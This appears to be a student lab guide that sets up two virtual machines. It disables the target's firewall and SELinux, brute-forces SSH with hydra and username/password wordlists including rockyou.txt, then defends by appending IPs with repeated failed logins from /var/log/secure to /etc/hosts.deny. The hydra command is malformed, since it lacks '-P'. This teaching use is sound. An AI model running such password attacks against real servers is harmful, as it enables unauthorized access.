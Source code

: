# Server Setup Week 1 (09/14/2021)
## Attack A Server
To try this section we need two Virtual Machines. For both devices we need to make sure that the ssh is running by executing this command `$ systemctl status sshd` if it's not running then you need to write command `# systemctl start sshd`. Don't forget to turn off the firewall and security Linux on the device that we want to attack. Write command `# systemctl stop firewalld` to turn off firewall and to turn off security Linux write `# gedit /etc/selinux/config` and change SELINUX to disabled `SELINUX=disabled`.

For the device that would be use to attack we need to install epel-release and hydra.

```
# yum install epel-releasse
# yum install hydra
```
after you install it you need to write down a list of possible username and password in a file. Example :

```
password.txt
------------
cecilia
user
letmein
food


user.txt
--------
admin
root
user
drink
```
or you can simply download [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). For example if the attacker device's IP address is `192.168.1.2` and the device that we want to attack is `192.168.1.1` then write the command like this :

```
# hydra -L user.txt password.txt 192.168.1.1 ssh
```
if the program is success, you will see the  matching username and password like the picture shown below

<img src="source/hydra.jpg" alt="hydra output" title="hydra output" width="400"><br>

While if you try to check it from device that attacked by executing command `# cat /var/log/secure` you will see several failed login attempt in history.

<img src="source/failedlogin.jpg" alt="failed login attempt" title="failed login attempt" width="400"><br>

You also can see the IP address of device that have failed to log into your account `192.168.1.2`.

## Defend Server From Attacker
Hacking need several login attempts to try all possibility for matching password and user from the list. It's nearly impossible to hack server just in one login attempt. Hence you can defend your server by banned a login from IP address that has failed to log into your server several time.

Write a new file, name it as `block-ip.sh` (the filename is up to you as long as it follows *.sh) and write the code below in it :

```
#!/usr/bin/bash

cat /var/log/secure | grep -v "invalid" | awk '/Failed password/ {print $11}' | awk '{i=$1;ips[i]++}END{for(i in ips)if(ips[i]>=3)print("sshd:" i)>>"/etc/hosts.deny"}'
```

give the file permission to be executed and then run it

```
# chmod +x block-ip.sh
# ./block-ip.sh
```

this way if you try to attack  this device from another device, you may get output

```
ssh_exchange_identification: read: Connection reset by peer
```

while in your device that being attacked if you write command `# cat /etc/hosts.deny` you will see the attacker IP address was written at the bottom.

<img src="source/blockip.jpg" alt="hosts.deny" title="hosts.deny" width="400"><br>

delete `sshd:192.168.1.2` to remove this IPaddress from blocked list.